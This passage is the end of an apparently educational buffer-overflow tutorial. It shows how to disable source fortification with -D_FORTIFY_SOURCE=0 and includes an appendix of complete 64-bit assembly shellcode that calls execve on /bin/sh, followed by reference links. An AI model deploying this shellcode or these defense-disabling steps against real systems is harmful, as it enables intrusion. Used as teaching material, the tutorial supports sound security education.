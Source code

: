    ```
   *** buffer overflow detected ***: ./vulnerable terminated
   ```

   To work around this, just pass `-D_FORTIFY_SOURCE=0`.

It may seem like cheating to turn these off, and in some sense it is,
but it is helpful when trying to teach the underlying ideas behind stack
smashing. And in fact, it is often possible to [work around these
defenses] with more advanced attacks, though those are far beyond the
scope of this document.

# Appendix A: 64-bit execve shell code

```asm
#include <sys/syscall.h>

#define STRING  "/bin/sh"
#define STRLEN  7
#define ARGV    (STRLEN+1)
#define ENVP    (ARGV+8)

.globl main
        .type   main, @function

 main:
        jmp     calladdr

 popladdr:
        popq    %rcx
        movq    %rcx,(ARGV)(%rcx)       /* set up argv pointer to pathname */
        xorq    %rax,%rax               /* get a 64-bit zero value */
        movb    %al,(STRLEN)(%rcx)      /* null-terminate our string */
        movq    %rax,(ENVP)(%rcx)       /* set up null envp */

        movb    $SYS_execve,%al         /* syscall arg 1: syscall number */
        movq    %rcx,%rdi               /* syscall arg 2: string pathname */
        leaq    ARGV(%rcx),%rsi         /* syscall arg 2: argv */
        leaq    ENVP(%rcx),%rdx         /* syscall arg 3: envp */
        syscall                 /* invoke syscall */

        movb    $SYS_exit,%al          /* syscall arg 1: SYS_exit (60) */
        xorq    %rdi,%rdi               /* syscall arg 2: 0 */
        syscall                 /* invoke syscall */

 calladdr:
        call    popladdr
        .ascii  STRING
```

  [Smashing the Stack for Fun and Profit]: http://phrack.org/issues/49/14.html#article
  [Smashing the Stack in 2011]: https://paulmakowski.wordpress.com/2011/01/25/smashing-the-stack-in-2011/
  [x86-64]: https://en.wikipedia.org/wiki/X86-64
  [AT&T syntax]: https://en.wikipedia.org/wiki/X86_assembly_language#Syntax
  [`strcpy`]: https://linux.die.net/man/3/strcpy
  [null-terminated strings]: https://en.wikipedia.org/wiki/Null-terminated_string
  [null character]: https://en.wikipedia.org/wiki/Null_character
  [Appendix A]: {{page.url}}#appendix-a-64-bit-execve-shell-code
  [Disabling Modern Defenses]: {{page.url}}#disabling-modern-defenses
  [environment variables]: https://wiki.archlinux.org/index.php/Environment_Variables
  [special value]: https://en.wikipedia.org/wiki/Buffer_overflow_protection#Canaries
  [`execstack`]: https://linux.die.net/man/8/execstack
  [free-for-all]: https://en.wikipedia.org/wiki/Calling_convention
  [`cdecl`]: https://en.wikipedia.org/wiki/X86_calling_conventions#cdecl
  [return to libc]: https://en.wikipedia.org/wiki/Return-to-libc_attack
  [visual explanation]: https://eli.thegreenplace.net/2011/09/06/stack-frame-layout-on-x86-64
  [System V AMD64 ABI]: https://wiki.osdev.org/System_V_ABI#x86-64
  [borrowed code chunks]: http://users.suse.com/~krahmer/no-nx.pdf
  [return-oriented programming]: https://en.wikipedia.org/wiki/Return-oriented_programming
  [source fortification]: https://access.redhat.com/blogs/766093/posts/1976213
  [work around these defenses]: https://lobste.rs/s/up2x39/smashing_stack_21st_century#c_v5hama
  [buffer overflow lab]: http://css.csail.mit.edu/6.858/2019/labs/lab1.html
